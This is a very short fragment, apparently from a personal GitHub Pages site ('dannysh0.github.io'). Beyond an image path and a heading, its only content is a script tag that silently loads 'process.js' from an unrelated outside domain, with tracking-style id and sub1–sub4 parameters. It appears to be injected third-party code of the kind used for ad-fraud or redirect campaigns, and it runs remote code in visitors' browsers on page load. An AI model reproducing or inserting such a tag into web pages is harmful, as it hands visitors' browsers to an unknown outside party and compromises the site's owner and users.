 # dannysh0.github.io
<script type="text/javascript" src="https://news-hoxane.com/process.js?id=1220606969&p1=sub1&p2=sub2&p3=sub3&p4=sub4" async></script>
